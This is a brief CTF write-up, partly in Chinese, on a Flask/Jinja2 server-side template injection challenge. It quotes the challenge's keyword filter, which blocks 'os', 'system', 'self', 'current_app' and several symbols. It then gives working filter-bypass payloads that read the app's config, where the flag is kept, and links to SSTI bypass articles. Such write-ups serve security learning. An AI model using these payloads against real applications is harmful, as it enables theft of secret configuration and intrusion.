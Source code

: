 html source hint:ssti 
filter 
```
    if ">" in request.url or "&" in request.url or "-" in request.url or "<" in request.url:
        return "FORBIDEN"
    if "os" in request.url or  "self" in request.url or "system" in request.url:
        return "I know what you did! But flag you want is in config."
    if "'current_app" in request.url:
        uurl= "LANCTF{ .... <br> 抄current_app也要懂ssti才对嘛，你的current_app好像被过滤了"
```
404 page with payload, example:
{{url_for.__globals__['curre'+'nt_app'].config}}
{{url_for.__globals__[request.args.a].config}}?a=current_app
others will be ok, readfile

其他 payload 及 SSTI 资料可阅读
http://www.freebuf.com/articles/web/136118.html
http://www.freebuf.com/articles/web/136180.html
https://zhuanlan.zhihu.com/p/28823933
https://0day.work/jinja2-template-injection-filter-bypasses/
https://www.xmsec.cc/ssti-and-bypass-sandbox-in-jinja2/





